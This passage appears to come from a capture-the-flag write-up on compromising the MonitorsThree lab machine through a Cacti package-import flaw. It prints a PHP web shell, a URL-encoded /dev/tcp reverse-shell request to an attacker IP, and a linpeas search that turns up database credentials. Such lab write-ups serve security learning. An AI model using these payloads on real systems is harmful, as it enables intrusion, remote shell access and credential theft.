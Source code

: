 
Changing the `filedata` variable to be  

```php
<?php system(\$_GET['cmd']); ?>
```

Run the POC 

```bash
php poc.php
```

A zip file was generated
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830173621.png" alt="20" style="width:700px; height:auto;">
<br/>
Logging in to the cacti dashboard using the same credentials
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830173857.png" alt="21" style="width:700px; height:auto;">
<br/>
Following the POC, going to `Import/Export` > `Import Package` 
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830174007.png" alt="22" style="width:700px; height:auto;">
<br/>
Select the `test.xml.gz` file and import it 
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830174106.png" alt="23" style="width:700px; height:auto;">
<br/>
Follow the path given `/var/www/html/cacti/resource/test.php`
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830184430.png" alt="24" style="width:700px; height:auto;">
<br/>
We get RCE  
Using the `revshells.com` payload and URL encode it, open a NC listener, we get a connection

```
http://cacti.monitorsthree.htb/cacti/resource/test.php?cmd=bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.66%2F4444%200%3E%261%27
```

<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830184620.png" alt="25" style="width:700px; height:auto;">
<br/>
Upgrading the shell 
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830184728.png" alt="26" style="width:700px; height:auto;">
<br/>
Searching for Database credentials, we get a hit `/var/www/html/cacti/lib/installer.php` using `linpeas.sh`
<br/> 
<img src="/img/MonitorsThreeScreenshots/Pasted image 20240830192445.png" alt="27" style="width:700px; height:auto;">
<br/>
Logging in with those credentials 
